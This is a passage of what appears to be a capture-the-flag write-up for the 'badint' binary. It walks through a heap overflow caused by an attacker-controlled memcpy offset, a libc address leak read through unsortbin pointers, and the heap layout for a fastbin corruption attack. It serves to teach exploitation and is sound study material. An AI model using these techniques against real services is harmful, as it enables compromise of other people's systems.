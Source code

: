```
```

After done some analyzing, we found the vulnerability:
```c
 len = (unsigned __int8)get_len(cur_obj);
 data = (const void *)get_data(cur_obj);
 offset = get_offset(cur_obj);
 memcpy((void *)(offset + new_buf), data, len); // <-- Here !!
```

The program use `memcpy(new_buf + offset, data, len)` to copy the input data into a heap buffer. The variable `offet` can be controlled by us, and thus lead to a **heap overflow vulnerability**. The program crashed due to the `size` metadata was overwritten into an invalid size, causing the `free()` function aborted the program.  

Now we spot the vulnerability, time to exploit the service. First we'll have to leak some address. Here I leaked the libc's address by doing the following:  
```
$ ./badint 
SEQ #: 1
Offset: 8
Data: 111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
LSF Yes/No: Yes
RX PDU [1] [len=144]
Assembled [seq: 1]: 788ba4952b7f000011111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111

SEQ #:
```

Here we set the offset to 8, so the data we input will copy to `heap_buf+8`. `heap_buf` is a chunk in unsortbin which will be allocated for storing our input data, and thus its `fd` & `bk` will contain the address of `main_arena+88`. We copy the data to `heap_buf+8`, means that `fd` will not be overwritten, and so we could leak the libc's address by printing out the assembled data.  

The next step is to try hijack the program control flow. Here I decided to use the fastbin corruption attack. First we'll have to arrange the following heap memory layout:
```
gdb-peda$ hip
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0xc26cc0 --> 0x0
(0x40)     fastbin[2]: 0xc26c80 --> 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0xc26c20 --> 0x0   
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0xc26f10 (size : 0x1c0f0) 
       last_remainder: 0xc26e00 (size : 0x50) 
            unsortbin: 0x0
gdb-peda$ 
```
